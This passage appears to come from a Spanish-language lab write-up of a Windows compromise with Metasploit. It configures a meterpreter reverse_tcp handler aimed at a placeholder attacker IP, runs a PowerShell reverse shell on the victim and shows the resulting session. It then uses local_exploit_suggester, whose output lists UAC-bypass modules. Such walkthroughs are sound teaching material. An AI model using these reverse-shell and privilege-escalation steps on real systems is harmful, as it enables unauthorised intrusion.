 ```shell
use multi/handler
```

Ahora vamos a configurarlo de la siguiente forma:

```shell
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <IP_ATTACKER>
set LPORT <PORT>
run
```

Ahora si podremos ejecutar el script de la `reverse shell` en la maquina victima.

```shell
.\shell.ps1
```

Ahora si volvemos a donde tenemos la escucha veremos lo siguiente:

```
[*] Started reverse TCP handler on 192.168.1.146:7777 
[*] Sending stage (203846 bytes) to 192.168.1.164
[*] Meterpreter session 2 opened (192.168.1.146:7777 -> 192.168.1.164:49730) at 2025-04-01 06:19:34 -0400

meterpreter > getuid
Server username: NESSUS\nesus
```

Vemos que ha funcionado, por lo que vamos a dejar en segundo plano la sesion de la `shell` haciendo `Ctrl+Z` y dandole a `Y`.

Una vez echo esto, vamos a utilizar un modulo de `metasploit` para enumerar las diferentes vulnerabilidades a nivel local de la maquina victima `Windows`.

```shell
use post/multi/recon/local_exploit_suggester
```

Vamos a configurar el modulo de la siguiente forma:

```shell
set SESSION <ID_SESSION>
set SHOWDESCRIPTION true
exploit
```

Info:

```
[*] 192.168.1.164 - Collecting local exploits for x64/windows...
[*] 192.168.1.164 - 198 exploit checks are being tried...
[+] 192.168.1.164 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
  Microsoft Windows allows for the automatic loading of a profiling 
  COM object during the launch of a CLR process based on certain 
  environment variables ostensibly to monitor execution. In this case, 
  we abuse the profiler by pointing to a payload DLL that will be 
  launched as the profiling thread. This thread will run at the 
  permission level of the calling process, so an auto-elevating 
  process will launch the DLL with elevated permissions. In this case, 
  we use gpedit.msc as the auto-elevated CLR process, but others would 
  work, too.
[+] 192.168.1.164 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
  This module will bypass Windows UAC by hijacking a special key in 
  the Registry under the current user hive, and inserting a custom 
  command that will get invoked when Window backup and restore is 
  launched. It will spawn a second shell that has the UAC flag turned 
  off. This module modifies a registry key, but cleans up the key once 
  the payload has been invoked.
```
